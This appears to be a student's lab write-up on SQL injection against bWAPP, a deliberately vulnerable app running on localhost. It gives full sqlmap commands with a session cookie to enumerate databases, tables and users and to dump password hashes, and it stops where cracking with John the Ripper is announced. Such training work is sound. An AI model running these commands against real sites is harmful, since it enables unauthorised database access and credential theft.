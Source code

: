 # Task 2: Attack on the database of bWapp 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:
-  I choose SQL Injection (GET/Select) bug
-  Then I get my cookie from my browser setting
![scr](imgs/get_cookie.png)

-  Command Script:

```
 python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" --dbs --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

- Then the output of all databases:

![db](imgs/all_db.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

-  Get Tables:
From these databases form question 1. I want to get names of all tables in the database bWAPP, this is the root database that stores all user in this database.

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -D bWAPP --tables --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```
- Output of getting table:

![tables](imgs/all_tables.png)

- Get Users

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -users --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

-  Output of getting users:

![users](imgs/all_users.png)

So now I have all the table and users on bWAPP.

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

- I will export id, email, password data on users table

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -D bWAPP -T users -C id,email,password --dump --columns --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

- The output is:

![iep](iep.png)

- I will copy 2 hashed password inside the csv file of sqlmap to a txt file. Then use John the Ripper to crack them.

